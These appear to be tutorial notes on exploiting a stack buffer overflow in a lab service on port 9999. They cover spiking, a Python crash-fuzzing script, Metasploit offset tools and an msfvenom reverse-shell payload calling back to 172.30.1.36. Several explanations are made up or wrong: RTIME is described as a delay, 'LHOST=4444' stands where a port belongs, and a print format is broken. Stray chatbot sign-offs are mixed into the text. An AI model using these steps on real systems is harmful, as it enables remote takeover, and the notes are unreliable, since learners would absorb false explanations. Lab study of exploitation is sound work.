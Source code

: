 # 5_Fundamentals of Buffer Overflow

# Introduction

### Learning Objectives

- Setting up a test environment for learning buffer overflow
- Understanding spiking and fuzzing techniques
- Discovering the offset and writing to the EIP
- Discovering and resolving bad characters
- Creating a malicious payload using Shellcode
- Compromising a system

### `nc -nv <ip> 9999`

`nc` stands for Netcat, which is a versatile networking tool that can be used to establish connections between computers. The `-nv` options specifies that the connection should be made in verbose and numeric-only mode.

`<ip>` should be replaced with the IP address you want to connect to.

`9999` is the port number you want to connect to. Once the connection is established, you can use it to send and receive data between the two computers.

Overall, this command is useful for tasks such as remote access and data transfer.

Let me know if you need more information or clarification.

### `generic_send_tcp`

`generic_send_tcp` is a tool used for sending arbitrary data over a TCP connection. It can be used for tasks such as sending payloads to a remote target during a penetration test. The tool can be used in conjunction with other tools to create complex attack scenarios.

Let me know if you need more information or clarification.

### Point

```
1s_readline();
2s_string("RTIME ");
3s_string_variable("0");

```

The above code is an example of how to use the RTIME command in an exploit script. The `s_readline()` function reads a line of input from the target, while `s_string()` sends a string of characters to the target. The `s_string_variable()` function sends a variable value to the target.

The RTIME command is used to add a delay to the exploit. In this case, the delay is set to 0 seconds, which means that the exploit will execute immediately after the target receives it.

Then, save the above commands on rtime.spk file with text editor, and run the following command:

`generic_send_tcp 10.211.55.12 rtime.spk 9999 0 0`

The command `generic_send_tcp 10.211.55.12 rtime.spk 9999 0 0` sends the contents of the `rtime.spk` file to the IP address `10.211.55.12` on port `9999`. The `0 0` at the end of the command specifies that no delay should be added before or after sending the data.

This command is useful for testing exploits in a controlled environment. By sending exploits to a test system, security researchers can determine if the exploits are effective without risking damage to a production system.

# Determining the Offset

```python
#! /usr/bin/python3
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect (('10.211.55.12', 9999))

		payload = "TRUN /.:/" + buffer

		s.send ((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	except:
		print ("Crashed happened at % bytes" % str(len(buffer)))
		sys.exit()

```

The above is a Python script that can be used to test for a buffer overflow vulnerability. The script works by sending a series of increasingly large payloads to the target system until the system crashes. When the system crashes, the script reports the length of the payload that caused the crash.

To use the script, replace `10.211.55.12` with the IP address of the target system and `9999` with the port number that the vulnerable service is running on. Run the script and wait for it to report a crash.

This script is useful for identifying the length of the buffer needed to overflow the target system's buffer and control the EIP. Once the length of the buffer is known, it can be used to craft a payload that will execute arbitrary code on the target system.

`**/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 6600**`

The above command generates a unique pattern of 6600 bytes. This pattern can be used to identify the offset of the EIP register in the target system's memory.

To use the pattern, send it to the target system and observe the value of the EIP register when the system crashes. The value of the EIP register can then be used to determine the offset of the pattern in the target system's memory.

This command is useful for testing for buffer overflow vulnerabilities and identifying the offset needed to control the EIP register.

`**/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 6600 -q 386F4337**`

The command  can be used to determine the offset of the EIP register in the target system's memory. The `-l` option specifies the length of the pattern, and the `-q` option specifies the value to search for in the pattern. Replace `6600` with the length of the payload used to crash the target system, and replace `386F4337` with the value of the EIP register at the time of the crash. This command will output the offset of the value in the pattern.

# Find the Right Component

`msf-nasm_shell` is a tool used to convert assembly code into machine code that can be executed on a target system. It is included as part of the Metasploit Framework and can be used to create payloads for exploits.

To use the tool, run `msf-nasm_shell` from the command line. This will open the tool's prompt. Enter the assembly code that you want to convert into machine code at the prompt, and press Enter. The tool will output the corresponding machine code.

This tool is useful for creating payloads for exploits that can be used to take control of a target system.

# Creating Malicious Shellcode for Root Access

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=172.30.1.36 LHOST=4444 EXITFUNC=thread -f c -a x86 -b "\\x00"

```

The above command creates a payload for a Windows system that will establish a reverse TCP connection to the IP address `172.30.1.36` on port `4444`. The `EXITFUNC=thread` option specifies that the payload should exit cleanly. The `-f c` option specifies that the payload should be output in C format. The `-a x86` option specifies that the payload should be compiled for an x86 architecture. The `-b "\\x00"` option specifies that null bytes should be avoided in the payload.

This payload can be used to create a reverse shell on a target Windows system, providing the attacker with full access to the system.

Note that this command is for educational purposes only and should not be used for illegal activities.